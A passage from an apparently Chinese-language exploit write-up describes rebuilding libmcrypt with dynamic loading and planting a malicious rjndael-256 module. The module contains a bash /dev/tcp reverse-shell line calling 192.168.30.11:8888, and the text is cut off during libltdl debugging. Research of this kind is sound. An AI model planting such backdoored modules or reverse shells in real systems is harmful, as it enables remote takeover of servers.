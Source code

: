 果然此处是个宏，那么我们只要找到指定USE\_LTDL宏的选项就好了，configure.in 中104行：

```text
 AC_DEFINE(USE_LTDL, 1, [use libltdl])
```

此处定义了USE\_LTDL，发现这是个分支，进入条件是：

```text
if test "x$opt_enable_ltdl" != xno; then
```

所以只要指定$opt\_enable\_ltdl就可以了，发现对$opt\_enable\_ltdl的操作在75行：

```text
opt_enable_ltdl=no
AC_MSG_CHECKING([whether to enable dynamic module loading])
AC_ARG_ENABLE(dynamic-loading,
[  --enable-dynamic-loading   enable dynamic module loading],
opt_enable_ltdl=$enableval)
AC_MSG_RESULT($opt_enable_ltdl)
```

所以，我们要指定 `--enable-dynamic-loading` 这个选项，这样才能开启USE\_LTDL，也就是动态加载。 再编译一次：

```text
./configure --disable-posix-threads --enable-dynamic-loading CFLAGS="-g3 -gdwarf-2 -O2"
make && make install
```

之后我并没有往后看他需要调用的接口，我直接把libmcrypt中的所有 `rijndael-256` 都替换成了 `rjndael-256`（包括文件名和文件内容，要注意一些隐藏文件夹），然后修改 modules/algorithms/rjndael-256.c ，添加头文件：

```text
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
```

在 \_mcrypt\_encrypt 函数的定义部分结束后添加一行：

```text
system("bash -c 'bash -i >& /dev/tcp/192.168.30.11/8888 0>&1'");
```

将`modules/algorithms/.libs/rjndael-256.so` 拷贝到目标文件夹，再次测试，发现还是错误，再跟进去调一下，还是原来的位置下断点，我们发现，lt\_dlopenext仍然返回NULL，但是这次我们可以s进去了，简单读一下代码发现他首先会提取后缀名，如果要执行lt\_dlopen函数，则需要满足条件：

```text
  if (ext && ((strcmp (ext, archive_ext) == 0)
#ifdef LTDL_SHLIB_EXT
          || (strcmp (ext, shlib_ext) == 0)
#endif
      ))
    {
      return lt_dlopen (filename);
    }
```

否则，按照后缀默认是archive\_ext进行之后的操作，输出下archive\_ext：
